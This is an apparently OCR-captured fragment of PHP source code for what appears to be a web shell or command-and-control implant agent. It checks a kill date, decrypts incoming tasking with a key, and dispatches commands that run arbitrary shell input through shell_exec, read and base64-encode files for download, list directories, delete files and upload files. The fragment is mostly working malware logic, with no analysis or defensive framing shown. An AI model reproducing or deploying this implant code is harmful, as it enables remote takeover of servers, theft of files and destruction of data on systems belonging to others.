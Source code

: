 ```
	fclose($fh);
	return "Successfully wrote file";
}
function download($path){
	$content = file_get_contents($path);
	if( $content === false){
		return "Failed to get contents of file";
	}
	return base64_encode($content);
}
function process_message($full_message){
	if( !check_date() ){
		abort_call();
	}
	http_response_code(200);
	global $encryption_key;

	$decrypted_message = decrypt( $full_message, $encryption_key );
	//echo $decrypted_message;
	$pieces = explode("|", $decrypted_message);
	//echo count($pieces);
	if( count($pieces) < 2 ){
	    if(count($pieces) > 0){
	        return $pieces[0] . "|" . "wrong number of pieces";
	    }
		return "|wrong number of pieces";
	}
	$task_id = $pieces[0];
	$command = base64_decode($pieces[1]);
	$output = "";
	switch($command){
		case "shell":
			$output = shell_exec(base64_decode($pieces[2]) );
			break;
		case "pwd":
			$output = getcwd();
			break;
		case "checkin":
			$output = checkin();
			break;
		case "download":
			$output = download(base64_decode($pieces[2]));
			break;
		case "ls":
			$output = list_directory(base64_decode($pieces[2]));
			break;
		case "rm":
			$output = remove_file(base64_decode($pieces[2]));
			break;
		case "upload":
			$output = upload(base64_decode($pieces[2]), base64_decode($pieces[3]));
			break;
	}
	return $task_id . "|" . $output;}
```
